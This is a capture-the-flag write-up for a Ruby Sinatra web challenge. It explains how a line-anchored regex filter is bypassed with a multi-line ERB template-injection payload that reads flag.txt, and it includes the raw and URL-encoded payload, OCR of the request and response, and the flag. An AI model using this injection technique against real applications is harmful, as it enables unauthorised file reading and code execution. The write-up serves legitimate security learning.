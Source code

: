 # Embed Flow
> This guy wants you to guess his favorite programming language, but missed setting up the pattern correctly.

## About the Challenge
We got a website and this website is using Sinatara (Ruby). Here is the preview of the challenge


[Image extracted text: Which programming language do you think Im fluent in?
Hint: Im more versatile than a Swiss Army knife when it comes to programmingl
Enter your guess
Make a Wild Guessl
Your guess: test
Try
againl]


If we try to input `'` character, we'll get an error message like this:


[Image extracted text: Which programming language do you think Im fluent in?
Hint: Im more versatile than a Swiss
knife when it comes to programming!
Make a Wild Guessl
Your guess: Malicious Input Detectedl You cant bypass the regex ^[0-9a-zln ]+Sli hehe
Army]


## How to Solve?
After seeing the regex pattern, I immediately knew this was similar to a HTB challenge called `Neonify` (https://blog.devops.dev/ssti-bypass-filter-0-9a-z-i-08a5b3b98def). So I used the same payload to read the flag :D

```
test
<%= File.open('flag.txt').read %>
test
```

And then encode it using urlencode and it will become

```
test%0A%3C%25=%20File.open('flag.txt').read%20%25%3E%0Atest
```


[Image extracted text: POST
HTTP/1.1
12
<html>
2
Host:
embed-flow. ictfS.ninja
13
<head>
3 Content-Length:
65
14
<title>
Cache-Control:
max-age-0
Guess
the
Polyglot !
5
Upgrade-Insecure-Requests:
</title>
6 Origin:
http: / /embed-flow
ictfS.ninja
15
<link
rel-"stylesheet"
href=" /style.css">
Content-Type
application/X-WWW-form-urlencoded
16
</head>
User-Agent
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537
36
17
<body>
(KHTML ,
like
Gecko)
Chrome/123.0.6312.122
Safari/537
36
18
<hz>
Accept:
Which
programming  Language
do
you
think
I'm
fluent
in?
text/html,application/xhtml+xml,application/xml;
9 , image/avif , image/webp, i
</hz>
mage/apng
*/*;9=0.8,application/signed-exchange;V=b3;9=0.7
19
<p>
10
Referer:
http: / /embed-flow. ictf5.ninjal
Hint:
I
more
versatile
than
Swiss Army
knife
when
it
comes
to
11 Accept-Encoding:
gzip,
deflate,
br
programming !
12 Accept-Language
en-US, en;q=0.9
</p>
13
Connection:
close
20
<form
action=" /"
method="post">
14
21
input type-"text
name=
guess
placeholder="Enter
your
guess
required
15
guess=test"0A"3C825-%20File.open (
txt
)
read%20825%3E%OAtest
22
<button
type=
submit">
Make
Wild
Guess
</button>
23
formz
24
25
Try again!
<[p>
26
27
28
Your
guess
test
29
ictf{ruby_r3g3x_n3w_lln3_413rt}
30
31
test
p>
32
33
body
34
/html>
35
Search
highlights
Search
highlights
q=0 .
flag]


```
ictf{ruby_r3g3x_n3w_l1n3_4l3rt}
```